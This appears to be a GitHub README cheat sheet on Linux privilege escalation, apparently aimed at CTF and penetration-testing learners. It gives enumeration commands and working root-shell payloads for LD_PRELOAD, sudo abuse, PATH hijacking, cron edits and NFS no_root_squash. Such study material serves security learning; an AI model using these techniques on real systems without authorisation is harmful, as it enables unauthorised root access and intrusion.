 <h1 align="center">
  Privilege-Escalation-For-Linux
</h1>
<h3 align="center">To bypass security restrictions in misconfigured systems.</h4>


---




## List of Automated Eumeration Tools 👇🏻

  - LinPeas - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
  - LinEnum - https://github.com/rebootuser/LinEnum
  - LES - https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration - https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker - https://github.com/linted/linuxprivchecker 

---

***⭐GTFOBins*** - https://gtfobins.github.io/ 

---
## Kernel Exploits
  - sometimes the Kernel may be vulnerable
  - To Check the version 
```
uname -a
cat /etc/issue
cat /proc/version
```
  - Now we have the information we can search for the vulnerabilities in Google or [exploit-db](www.exploit-db.com)
  - We can also use [Linux Priv Checker]( https://github.com/linted/linuxprivchecker ) as mentioned above.

---


## Exploitiing all the Binaries which have SUID and SGID bits set
  -To list all the binaries which have SUID and SGID buts set
  
```
find / -type f -perm -04000 -ls 2>/dev/null
```
  - after listing all the binaries check the exploits in [GTFOBins](https://gtfobins.github.io/) 

---

## Using LD_Preload
  - This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
  - Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
  - Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

---

## Exploting Sudo Rights
  - To list the executable Binaries/files 👉🏿 `sudo -l`

![sudo -l](https://user-images.githubusercontent.com/85082756/149580032-d68641ca-96e2-4538-8032-7149d6c71111.png)

  - Now when we have the list of programs then we can search the following command in the [GFTObins](https://gtfobins.github.io/#+sudo)
    - for above we can use the less binary for gaing root access with the following command 👇
    - ```
      sudo less /etc/profile
      !/bin/sh
      ```
  - If you got any file like **exec.sh** then we can edit the contents inside it and we can execute it
```
echo "/bin/bash -i" >> exec.sh
```
```
sudo ./exec.sh
```
  > Check the following articles 👇

 - https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
 - https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
 - **Abusing 'find', 'vim' and 'awk' for root access** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/
---


## Through Capabilities
  - List all enabled Capabilities
```
getcap -r / 2>/dev/null
```
  - If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

---

## Cron job configurations
  - Anyone can read the file cron jobs under 👇🏻
```
/etc/crontab
```
![crontab](https://user-images.githubusercontent.com/85082756/149584453-8eb5218b-749f-4eb2-8a52-3095c487a39e.png)

  - If you find any jobs then u can edit that file to gain the root access MAKE SURE THEY ARE UNDER `root`
    - or created one on the same directory if not present or deleted
  - You can use the reverse shell to get the access CHECK THE JOB RUN TIME
    - in most of the CTFs they run every minute or 5 so
  
---

## Using $PATH
  - list the PATH by ``echo $PATH``

  - find for writable path ``find / -writable 2>/dev/null`` or clean the out put using -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

  - If able to modify the $PATH then ``export PATH=/DIR:$PATH`` (make sure to change the DIR)

  - now we have the required directory listed in out $PATH then we can just create a Script to exploit it 

  - For example 👉🏻 [path.c](path.c).
  - Now compile it using gcc ``gcc path.c -o shell``. 

  - OR you can also use python3 file [path.py](path.py), just run it as executable`/{filename}` ❌ not as `python3 {file.py}` ❌

  - After compiling set the SUID bit ``chmod u+s shell``

  - Now, go into the directory whichever you have added to $PATH and create a executable file ``echo "/bin/bash" > tobeX ``
  give it executable rights ``chmod 777 tobeX ``

  - Final Step ->  Just run script that we have created  ``./shell``. Boom!

---

## Network File Share
  - The list of all the fielsystems which may be exported is present in `/etc/exports`.


  - Check for `no_root_squash`.

  - By using `showmount` you can see the mountable shares in your attack machine. 


  - Then just mount the shared to your attack machine by 👉🏻 `mount -o rw {ip of target}:{mountable dir} /{dir of ur attack machine}`


  - Just create a executable with SUID bit set in that folder which can run /bin/bash on the target system check this [nfs.c](nfs.c) for example 
```
int main()
{setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}
```

  - Just compile it and run it from the target system.
